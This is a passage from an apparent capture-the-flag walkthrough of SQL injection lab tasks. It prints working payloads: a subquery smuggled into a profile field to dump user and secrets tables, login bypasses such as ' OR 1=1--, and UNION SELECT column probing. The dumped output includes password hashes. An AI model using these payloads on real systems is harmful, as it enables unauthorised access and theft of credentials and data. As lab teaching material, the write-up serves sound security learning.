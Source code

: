 This gave us the content in each column:

```shell
1:Francois:10:250:8605255014084::id,author,secret:ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb; 2:Michandre:11:300:9104154800081:::05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937; 3:Colette:12:275:8403024800086:::c69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac; 4:Phillip:13:400:8702245800084:::b6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3; 5:Ivan:14:200:8601185800080:::be042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff; 6:Admin:99:100:8605255014084:::6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25
```

Interesting.

Lets do the same with the secrets table:

```shell
',nickName=(SELECT group_concat(id || ':' || author || ':' || secret, '; ') FROM secrets),email='
```

And this is what we got:

```shell
1:1:Lorem ipsum dolor sit amet, consectetur adipiscing elit. Integer a.; 2:3:Donec viverra consequat quam, ut iaculis mi varius a. Phasellus.; 3:1:Aliquam vestibulum massa justo, in vulputate velit ultrices ac. Donec.; 4:5:Etiam feugiat elit at nisi pellentesque vulputate. Nunc euismod nulla.; 5:6:THM{REDACTED}
```

Nice! There is the flag we need.

### Task 4 - Broken Authentication
Goal: Find a way to bypass the authentication to retrieve the flag.

We can use the generic bypass payload below:
```shell
# Payload that worked without indicating user
' OR 1=1--
```

Or we can indicate the user we want to get access as if we know this user exists:
```shell
# Payload that worked without indicating user
admin'--
```

Both payloads will allow us to bypass login and get us to the flag.
### Task 5 - Broken Authentication
Goal: This challenge builds upon the previous challenge. Here, the goal is to find a way to dump all the passwords in the database to retrieve the flag without using blind injection.

#### Identifying number of columns with UNION SELECT
First we need to identify the number of columns. Enter the following payload on the username input:

```shell
' UNION SELECT 1--
' UNION SELECT 1,2--
' UNION SELECT 1,2,3--
```

